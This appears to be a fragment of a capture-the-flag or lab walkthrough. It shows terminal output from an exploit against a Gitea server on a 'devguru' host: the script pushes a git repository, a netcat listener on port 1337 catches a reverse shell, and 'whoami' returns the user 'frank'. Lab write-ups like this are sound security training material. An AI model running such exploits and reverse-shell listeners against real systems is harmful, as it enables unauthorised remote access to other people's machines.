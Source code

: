 	[+] Starting exploit ...
	hint: Using 'master' as the name for the initial branch. This default branch name
	hint: is subject to change. To configure the initial branch name to use in all
	hint: of your new repositories, which will suppress this warning, call:
	hint: 
	hint: 	git config --global init.defaultBranch <name>
	hint: 
	hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
	hint: 'development'. The just-created branch can be renamed via this command:
	hint: 
	hint: 	git branch -m <name>
	Initialized empty Git repository in /tmp/tmp.T8KmuZEi5T/.git/
	[master (root-commit) d9313e2] Initial commit
	 1 file changed, 1 insertion(+)
	 create mode 100644 README.md
	Enumerating objects: 3, done.
	Counting objects: 100% (3/3), done.
	Writing objects: 100% (3/3), 240 bytes | 240.00 KiB/s, done.
	[+] Exploit completed !
	┌──(root💀kali)-[~/tools/GitTools/Extractor]
	└─# nc -nvlp 1337
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::1337
	Ncat: Listening on 0.0.0.0:1337
	Ncat: Connection from 192.168.236.6.
	Ncat: Connection from 192.168.236.6:44070.
	bash: cannot set terminal process group (755): Inappropriate ioctl for device
	bash: no job control in this shell
	frank@devguru:~/gitea-repositories/frank/vuln.git$ whoami
	whoami
	frank
	```